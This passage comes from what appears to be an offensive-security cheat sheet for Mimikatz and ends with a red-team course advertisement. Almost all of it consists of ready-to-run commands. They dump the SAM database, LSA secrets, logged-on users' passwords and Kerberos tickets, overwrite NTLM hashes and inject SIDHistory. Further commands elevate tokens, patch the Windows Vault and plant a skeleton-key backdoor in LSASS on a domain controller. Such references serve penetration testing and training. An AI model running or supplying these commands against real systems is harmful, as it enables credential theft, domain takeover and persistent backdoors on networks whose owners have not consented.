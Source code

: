 - **LSADUMP::NetSync**: Impersonate a DC using a computer account's password data.
  - *No specific command provided for NetSync in original context.*

- **LSADUMP::SAM**: Access local SAM database.
  - `mimikatz "lsadump::sam" exit`

- **LSADUMP::Secrets**: Decrypt secrets stored in the registry.
  - `mimikatz "lsadump::secrets" exit`

- **LSADUMP::SetNTLM**: Set a new NTLM hash for a user.
  - `mimikatz "lsadump::setntlm /user:targetUser /ntlm:newNtlmHash" exit`

- **LSADUMP::Trust**: Retrieve trust authentication information.
  - `mimikatz "lsadump::trust" exit`

### Miscellaneous

- **MISC::Skeleton**: Inject a backdoor into LSASS on a DC.
  - `mimikatz "privilege::debug" "misc::skeleton" exit`

### Privilege Escalation

- **PRIVILEGE::Backup**: Acquire backup rights.
  - `mimikatz "privilege::backup" exit`

- **PRIVILEGE::Debug**: Obtain debug privileges.
  - `mimikatz "privilege::debug" exit`

### Credential Dumping

- **SEKURLSA::LogonPasswords**: Show credentials for logged-on users.
  - `mimikatz "sekurlsa::logonpasswords" exit`

- **SEKURLSA::Tickets**: Extract Kerberos tickets from memory.
  - `mimikatz "sekurlsa::tickets /export" exit`

### Sid and Token Manipulation

- **SID::add/modify**: Change SID and SIDHistory.
  - Add: `mimikatz "sid::add /user:targetUser /sid:newSid" exit`
  - Modify: *No specific command for modify in original context.*

- **TOKEN::Elevate**: Impersonate tokens.
  - `mimikatz "token::elevate /domainadmin" exit`

### Terminal Services

- **TS::MultiRDP**: Allow multiple RDP sessions.
  - `mimikatz "ts::multirdp" exit`

- **TS::Sessions**: List TS/RDP sessions.
  - *No specific command provided for TS::Sessions in original context.*

### Vault

- Extract passwords from Windows Vault.
  - `mimikatz "vault::cred /patch" exit`


<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
